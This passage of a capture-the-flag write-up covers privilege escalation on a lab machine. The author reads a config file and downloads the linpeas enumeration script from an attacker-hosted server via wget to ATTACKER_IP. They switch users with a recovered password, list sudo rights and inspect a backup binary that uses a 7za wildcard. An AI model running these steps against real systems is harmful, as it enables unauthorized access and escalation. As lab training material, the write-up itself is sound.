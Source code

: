 <br/>

### Privilege Escalation
in the machine we can see from the home directory there is another user called xander

An easy way to start is by checking in our home directory, there is a script file called `.monitrc` let's check it, always look for this low hanging frutis
```bash
cat .monitrc
```

I download linpeas script file 
```bash
cp /usr/share/peass/linpeas/linpeas.sh .
```

We need to transfer it to the target:
```bash
python3 -m http.server
```

```bash
wget http://ATTACKER_IP:8000/linpeas.sh
```
make the script executable
```bash
chmod +x linpeas.sh
```
now run it
```bash
./linpeas.sh > report.txt
```



In the report a password was found : REDACTED, i don't know why but i am pretty sure it is xander's one,
```bash
su xander
```

Now let's check what we can run as root with xander:
```bash
sudo -l
```
```
User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

Let's check this binary:
```bash
strings /usr/bin/usage_management
```

```
/var/www/html
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
Error changing working directory to /var/www/html
/usr/bin/mysqldump -A > /var/backups/mysql_backup.sql
Password has been reset.
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 
```
